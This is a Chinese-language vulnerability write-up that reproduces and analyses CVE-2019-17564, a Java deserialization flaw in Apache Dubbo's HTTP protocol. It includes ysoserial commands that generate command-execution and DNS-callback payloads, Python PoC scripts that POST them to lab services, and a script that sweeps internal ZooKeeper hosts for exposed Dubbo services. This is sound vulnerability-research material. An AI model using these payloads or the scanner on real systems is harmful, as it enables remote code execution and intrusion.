





Title: CVE-2019-17564 Dubbo HTTP协议反序列化漏洞
Date: 2020-07-18 20:30
Category: 漏洞实践
Tags: Java,反序列化,漏洞
Slug:
Authors: bit4woo
Summary: 

# CVE-2019-17564 Dubbo HTTP协议反序列化漏洞

### 影响范围

2.7.0 <= Apache Dubbo <= 2.7.4.1
2.6.0 <= Apache Dubbo <= 2.6.7
Apache Dubbo = 2.5.x


spring-web <= 5.1.9.RELEASE（存疑！个人的测试显示目前最新版本5.2.8.RELEASE和5.1.17.RELEASE都仍然受影响）


### 漏洞复现


#### 一、环境搭建


测试环境搭建方法如下：


```
git clone https://github.com/apache/dubbo-samples.git
cd dubbo-samples/java/dubbo-samples-http
```


用IDEA打开后需要修改pom.xml中的dubbo.version 将其修改为2.7.3存在漏洞的版本。


导入完依赖后还需要一个本地触发gadgets，这里导入commons-collections4-4.0。


**注: Dubbo启动依赖zookeeper。**


#### 二、启动zookeeper


下载完zookeeper后将conf目录下的zoo_sample.cfg文件改成zoo.cfg并修改其中的两个参数


```java
dataDir=E:/zookeeper/data
dataLogDir=E:/zookeeper/log
admin.serverPort=8899 //新增这个配置，避免zookeeper的管理页面绑定到8080端口
```


data和log目录需要自己在zookeeper目录下创建。然后运行bin\zkServer.cmd文件。


#### 二、构造反序列化PoC


利用ysoserial生成payload

```
java -jar ysoserial-0.0.5.jar CommonsCollections4 "calc" > payload.out

java -jar ysoserial-0.0.5.jar URLDNS http://dubbo.bit.0y0.link > urldns.out
```

在burp中通过“paste from file”将payload粘贴至burp中，**注意burp导入的数据，可能和原始数据不一致！！！**

如果存在问题，可以使用如下脚本，利用DNS请求来验证

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-

__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'

import requests
import subprocess

'''
目标站的特征：
http://127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService
访问的目标网站是dubbo的httpservice
'''

java7 =r"C:\Program Files\Java\jdk1.7.0\bin\java"
ys_filepath = r'D:\ser\ysoserial-0.0.5.jar'

def poc(url):
    try:
        popen = subprocess.Popen([java7, '-jar', ys_filepath, "URLDNS", "http://dubbo.bit.0y0.link"],
                                 stdout=subprocess.PIPE)
        payload = popen.stdout.read()
        proxy = {"http":"http://127.0.0.1:8081"}
        r = requests.post(url, data=payload, timeout=5,proxies = proxy)#只有POST方法会触发
    except Exception as e:
        print(e)

if __name__ == '__main__':
    poc("http://127.0.0.1:8080/org.apache.dubbo.samples.http.api.DemoService")

```


### 漏洞分析

#### 漏洞调用栈

由于我们已知这个PoC的用的是[URLDNS这个gadget](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)，它会去触发DNS请求，所以我们可以在Jjava.net.URL#hashCode 处下断点，以获取整个调用栈。



设置断点后，在idea中通过debug运行HttpProvider，启动过程中有很多流程都会到这个断点，全部可以放过，它们都不是我们的关注点。

```
src\main\java\org\apache\dubbo\samples\http\HttpProvider.java
```

接着，通过以上pythong脚本发起PoC请求，这个时候断点拦截到的调用栈，就是我们需要关注的了。




获取到的调用栈信息如下，调用顺序是从下往上的（java.lang.Thread#run是入口），要倒着看：

```python
getHostAddress(URL):434, URLStreamHandler (java.net)
hashCode(URL):359, URLStreamHandler (java.net)
hashCode():885, URL (java.net)
hash(Object):338, HashMap (java.util)
readObject(ObjectInputStream):1405, HashMap (java.util)
invoke0(Method, Object, Object[]):-1, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):62, NativeMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):43, DelegatingMethodAccessorImpl (sun.reflect)
invoke(Object, Object[]):498, Method (java.lang.reflect)
invokeReadObject(Object, ObjectInputStream):1058, ObjectStreamClass (java.io)
readSerialData(Object, ObjectStreamClass):2122, ObjectInputStream (java.io)
readOrdinaryObject(boolean):2013, ObjectInputStream (java.io)
readObject0(boolean):1535, ObjectInputStream (java.io)
readObject():422, ObjectInputStream (java.io)
//后续就是常规的反序列化过程了。

doReadRemoteInvocation(ObjectInputStream):144, RemoteInvocationSerializingExporter (org.springframework.remoting.rmi)
readRemoteInvocation(HttpServletRequest, InputStream):121, HttpInvokerServiceExporter (org.springframework.remoting.httpinvoker)
readRemoteInvocation(HttpServletRequest):100, HttpInvokerServiceExporter (org.springframework.remoting.httpinvoker)
handleRequest(HttpServletRequest, HttpServletResponse):79, HttpInvokerServiceExporter (org.springframework.remoting.httpinvoker)
//这里的代码调用的是spring web的代码，也就是为什么受影响的版本包括spring-web <= 5.1.9.RELEASE的原因。
//后续详细梳理这里的流程

handle(HttpServletRequest, HttpServletResponse):216, HttpProtocol$InternalHandler (org.apache.dubbo.rpc.protocol.http)
service(HttpServletRequest, HttpServletResponse):61, DispatcherServlet (org.apache.dubbo.remoting.http.servlet)
service(ServletRequest, ServletResponse):790, HttpServlet (javax.servlet.http)
//开始处理http请求

//以上步骤都在Tomcat的流程中，不用关注
internalDoFilter(ServletRequest, ServletResponse):231, ApplicationFilterChain (org.apache.catalina.core)
doFilter(ServletRequest, ServletResponse):166, ApplicationFilterChain (org.apache.catalina.core)
invoke(Request, Response):198, StandardWrapperValve (org.apache.catalina.core)
invoke(Request, Response):96, StandardContextValve (org.apache.catalina.core)
invoke(Request, Response):496, AuthenticatorBase (org.apache.catalina.authenticator)
invoke(Request, Response):140, StandardHostValve (org.apache.catalina.core)
invoke(Request, Response):81, ErrorReportValve (org.apache.catalina.valves)
invoke(Request, Response):87, StandardEngineValve (org.apache.catalina.core)
service(Request, Response):342, CoyoteAdapter (org.apache.catalina.connector)
service(SocketWrapperBase):803, Http11Processor (org.apache.coyote.http11)
process(SocketWrapperBase, SocketEvent):66, AbstractProcessorLight (org.apache.coyote)
process(SocketWrapperBase, SocketEvent):790, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun():1468, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run():49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker(ThreadPoolExecutor$Worker):1142, ThreadPoolExecutor (java.util.concurrent)
run():617, ThreadPoolExecutor$Worker (java.util.concurrent)
run():61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run():745, Thread (java.lang)
//以下步骤都在Tomcat的流程中，不用关注
```

当dubbo以http协议对外暴露服务时，存在反序列化漏洞，漏洞的利用需要找到对外暴露服务对应的URL地址，攻击者难以直接对web服务发起该漏洞的攻击，但是可以通过zookeeper监控程序，dubbo管理端等获取到这个信息，利用难度中。

#### 流程梳理

前面提到，整个调用流程中，Spring Web部分的代码是关键。

```
doReadRemoteInvocation(ObjectInputStream):144, RemoteInvocationSerializingExporter (org.springframework.remoting.rmi)
readRemoteInvocation(HttpServletRequest, InputStream):121, HttpInvokerServiceExporter (org.springframework.remoting.httpinvoker)
readRemoteInvocation(HttpServletRequest):100, HttpInvokerServiceExporter (org.springframework.remoting.httpinvoker)
handleRequest(HttpServletRequest, HttpServletResponse):79, HttpInvokerServiceExporter (org.springframework.remoting.httpinvoker)
//这里的代码调用的是spring web的代码，也就是为什么受影响的版本包括spring-web <= 5.1.9.RELEASE的原因。
```

一句话概括这部分的逻辑就是：“尝试从http请求中提取出RemoteInvocation对象”。RemoteInvocation数据对象的主要作用是信息传递 ，客户端将想要服务端执行的具体信息封装在对象中，如方法名、方法参数以及参数类型等。

我们可以从正常的调用逻辑中来理解它，先以debug运行org\apache\dubbo\samples\http\HttpProvider.java 并在org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter#handleRequest中下断点。然后运行org\apache\dubbo\samples\http\HttpConsumer.java 。

我们可以看出RemoteInvocation对象它好比一封信，信里的内容是"请执行你的sayHello函数，参数类型是String，参数值是world"。

正常逻辑中，服务端会反序列化这个对象，并从中获取到这些信息，然后通过反射按照这些信息进行函数调用并返回结果（RemoteInvocationResult）。一个正常的RPC调用就此完成。

而我们这里的漏洞，出现在反序列化这个RemoteInvocation对象的过程中，我们传递给服务端的数据是恶意的，也就是服务端从http请求中获取到的流数据是恶意的。后续的反序列化过程，就是标准的ObjectInputStream.readObject()的过程，就容易理解了。



#### Spring Web影响版本问题

根据官方的漏洞披露，spring-web <= 5.1.9.RELEASE受影响，当我尝试去使用5.1.10.RELEASE版本去查看修复方法时，并没有发现差异。而且我测试了目前最新版本5.2.8.RELEASE和5.1.17.RELEASE都仍然受影响。

测试时所使用的包和版本

```
<!-- https://mvnrepository.com/artifact/org.apache.commons/commons-collections4 -->
		<dependency>
			<groupId>org.apache.commons</groupId>
			<artifactId>commons-collections4</artifactId>
			<version>4.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework</groupId>
			<artifactId>spring-web</artifactId>
			<version>5.2.8.RELEASE</version>
		</dependency>

		<dependency>
			<groupId>org.springframework</groupId>
			<artifactId>spring-context</artifactId>
			<version>5.2.8.RELEASE</version>
		</dependency>
```

和

```
		<!-- https://mvnrepository.com/artifact/org.apache.commons/commons-collections4 -->
		<dependency>
			<groupId>org.apache.commons</groupId>
			<artifactId>commons-collections4</artifactId>
			<version>4.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework</groupId>
			<artifactId>spring-web</artifactId>
			<version>5.1.17.RELEASE</version>
		</dependency>

		<dependency>
			<groupId>org.springframework</groupId>
			<artifactId>spring-context</artifactId>
			<version>5.1.17.RELEASE</version>
		</dependency>
```

测试servlet

```
package com.bit4woo.servlet;

import org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

public class testServlet extends HttpServlet {
    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        HttpInvokerServiceExporter xxx = new HttpInvokerServiceExporter();
        xxx.handleRequest(req,resp);
    }
}
```

测试PoC

```
java8 =r"C:\Program Files\Java\jdk1.8.0_121\bin\java.exe"
ys_filepath = r'D:\ser\ysoserial-0.0.5.jar'

def poc1(url):
    try:
        popen = subprocess.Popen([java8, '-jar', ys_filepath, "CommonsCollections4", "calc.exe"],
                                 stdout=subprocess.PIPE)
        payload = popen.stdout.read()
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.post(url, data=payload, timeout=5)
    except Exception as e:
        print(e)

if __name__ == '__main__':
    poc1("http://localhost:8081/learnJavaWeb_war_exploded/test")
```






### 批量排查

遍历内网zookeeper，尝试查找内网dubbo的http服务，主要思路：
1、扫描zookeeper默认端口2181，发现所有zookeeper服务。
2、连接zookeeper端口，并遍历其中的节点。
3、如果节点以/dubbo开头则认为是dubbo注册的节点。
4、获取节点数据，如果节点数据包含"http://" 或 "https://"  认为是符合要求的“dubbo开在http协议上的服务”。
**注意：3、4的思路是个人的想法，不确信是否准确，请谨慎采纳！！！**


如下是多线程进行服务查找的脚本。结果未发现这类服务，排查就此结束。
```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'

import sys, os
import datetime
import threading
try:
    from queue import Queue #python3
except Exception as e:
    import Queue  # python2
    pass

def ThreadRunner(inputList, threadNumber=100):
    try:  # python3
        input_Queue = Queue()
        output_queue = Queue()
    except Exception as e:  # python2
        input_Queue = Queue.Queue()
        output_queue = Queue.Queue()

    for item in inputList:
        input_Queue.put(item.strip())

    Threadlist = []
    for i in range(int(threadNumber)):
        dt = Customer(input_Queue, output_queue)
        dt.setDaemon(True)
        dt.start()
        Threadlist.append(dt)
    for item in Threadlist:
        item.join()

    resultlist = []

    while not output_queue.empty():
        itemx = output_queue.get(timeout=0.1)
        resultlist.append(itemx)

    resultlist = list(set(resultlist))
    return resultlist


class Customer(threading.Thread):
    def __init__(self, input_Queue, output_queue):
        threading.Thread.__init__(self)
        self.input_Queue = input_Queue
        self.output_queue = output_queue

    def run(self):
        while True:
            if self.input_Queue.empty():
                break
            item = self.input_Queue.get(1)
            try:
                result = Do_Your_Task_In_This_Function(item)
                self.output_queue.put(result)
            except Exception as e:
                print(item+" "+str(e))

def writefile(list, outputfile=None):
    if outputfile == None:
        now = datetime.datetime.now()
        timestr = now.strftime("-%Y-%m-%d-%H-%M")
        outputfile = "ThreadRunner" + timestr + ".txt"
    outputfile = os.path.join(os.path.dirname(__file__), "..", "output", outputfile)
    open(outputfile, "w").writelines("\n".join(list.__str__()))


def Do_Your_Task_In_This_Function(input):  # do your job in this function!!
    nodes = getAllChildren(input)
    if nodes ==None:
        return ""
    if "dubbo" in nodes:
        print("!!!!发现有效目标{0}".format(input))
        return input
    else:
        return ""

def getAllChildren(Host, port="2181"):
    from kazoo.client import KazooClient
    try:
        AllNodes = []
        if ":" in Host:
            zk = KazooClient(hosts=Host)
        else:
            zk = KazooClient(hosts=Host + ":" + port)
        zk.start()
        NodeList = zk.get_children('/')
        while len(NodeList) > 0:
            for node in NodeList:
                #print("try get children of " + node)
                children = zk.get_children(node)
                resultnodes = list()
                for child in children:
                    if node == "/":
                        resultnodes.append(node + child)
                    else:
                        resultnodes.append(node + "/" + child)
                print(resultnodes)
                AllNodes.extend(resultnodes)
                NodeList = resultnodes
        zk.stop()
        if AllNodes ==None:
            return []
        return AllNodes
    except Exception as e:
        #print(Host+" "+str(e))
        pass

if __name__ == "__main__":
    result = ThreadRunner(open(r"D:\user\bit4woo\desktop\内网zookeeper.txt", "r").readlines())
    result.remove("")
    print("发现{0}个有效目标".format(len(result)))
    for item in result:
        print(item)

```
遍历所有结果未发现有用的在http协议上的服务。


### 参考链接
[https://www.mail-archive.com/dev@dubbo.apache.org/msg06225.html](https://www.mail-archive.com/dev@dubbo.apache.org/msg06225.html)
[http://www.lmxspace.com/2020/02/16/Apache-Dubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/](http://www.lmxspace.com/2020/02/16/Apache-Dubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2019-17564%EF%BC%89/)